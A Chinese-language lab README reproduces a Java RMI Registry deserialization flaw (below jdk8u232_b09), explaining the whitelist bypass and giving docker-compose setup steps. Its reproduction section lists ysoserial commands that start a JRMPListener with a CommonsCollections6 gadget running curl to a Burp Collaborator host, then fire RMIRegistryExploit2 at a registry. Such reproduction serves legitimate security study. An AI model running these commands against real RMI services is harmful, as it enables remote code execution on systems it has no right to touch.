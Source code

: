 # Java RMI Registry 反序列化漏洞(<jdk8u232_b09)

Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能(虽然大多数情况不允许远程bind)，在bind过程中，伪造Registry接收到的序列化数据(实现了Remote接口或动态代理了实现了Remote接口的对象)，使Registry在对数据进行反序列化时触发相应的利用链(环境用的是commons-collections:3.2.1).

自jdk8u121起，Registry对反序列化的类做了白名单限制

```java
if (String.class == clazz
        || java.lang.Number.class.isAssignableFrom(clazz)
        || Remote.class.isAssignableFrom(clazz)
        || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
        || UnicastRef.class.isAssignableFrom(clazz)
        || RMIClientSocketFactory.class.isAssignableFrom(clazz)
        || RMIServerSocketFactory.class.isAssignableFrom(clazz)
        || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
        || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
    return ObjectInputFilter.Status.ALLOWED;
} else {
    return ObjectInputFilter.Status.REJECTED;
}
```

我们需要在上面的几个白名单里面找到相应的可利用的类
具体原理见[浅谈RMI Registry反序列化问题](http://blog.0kami.cn/2020/02/06/rmi-registry-security-problem/)

## 漏洞环境

执行如下命令编译及启动RMI Registry和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip`是服务器IP，客户端会根据这个IP来连接服务器。

环境启动后，RMI Registry监听在1099端口。

## 漏洞复现

通过[ysoserial](https://github.com/wh1t3p1g/ysoserial)的exploit包中的RMIRegistryExploit2或者3进行攻击

```bash
// 开启JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "curl http://xxxxx.burpcollaborator.net"
// 发起攻击
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit2 192.168.31.88 1099 jrmphost 8888
```

![image-20200206135822418](assets/README/image-20200206135822418.png)

Registry会返回报错，这个没关系正常，命令会正常执行。
